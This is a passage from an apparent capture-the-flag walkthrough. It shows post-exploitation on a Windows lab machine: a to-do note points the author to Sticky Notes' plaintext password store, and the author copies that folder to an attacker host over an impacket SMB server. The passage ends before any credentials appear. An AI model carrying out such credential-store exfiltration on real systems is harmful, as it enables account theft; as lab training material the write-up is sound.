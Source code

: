 # Shell as development user
## Found todo.html in desktop folder of juliette
```powershell
PS C:\Users\juliette\Desktop> ls


    Directory: C:\Users\juliette\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         12/9/2020   6:27 AM            753 todo.html
-ar---         7/29/2021  10:26 PM             34 user.txt


PS C:\Users\juliette\Desktop> type todo.html
<html>
<style>
html{
background:black;
color:orange;
}
table,th,td{
border:1px solid orange;
padding:1em;
border-collapse:collapse;
}
</style>
<table>
        <tr>
            <th>Task</th>
            <th>Status</th>
            <th>Reason</th>
        </tr>
        <tr>
            <td>Configure firewall for port 22 and 445</td>
            <td>Not started</td>
            <td>Unauthorized access might be possible</td>
        </tr>
        <tr>
            <td>Migrate passwords from the Microsoft Store Sticky Notes application to our new password manager</td>
            <td>In progress</td>
            <td>It stores passwords in plain text</td>
        </tr>
        <tr>
            <td>Add new features to password manager</td>
            <td>Not started</td>
            <td>To get promoted, hopefully lol</td>
        </tr>
</table>

</html>
```
which tells that something be interesting in sticky notes application folder.
## Going in Sticky notes application folder
Going in sticky notes application folder `C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState` gives following files.
```powershell
PS C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState> ls


    Directory: C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         1/15/2021   4:10 PM          20480 15cbbc93e90a4d56bf8d9a29305b8981.storage.session
-a----        11/29/2020   3:10 AM           4096 plum.sqlite
-a----         1/15/2021   4:10 PM          32768 plum.sqlite-shm
-a----         1/15/2021   4:10 PM         329632 plum.sqlite-wal


PS C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState>
```
## copying whole `LocalState` folder to kali via smbserver
Started impacket smbserver  using  command`impacket-smbserver -smb2support files $(pwd)` and then copied folder `LocalState` to local kali vm using command `copy -R LocalState \\10.10.14.105\files\`.
![[Pasted image 20210730140720.png]]
## opening sqlite database file in sqlite3 and getting `Development` User creds




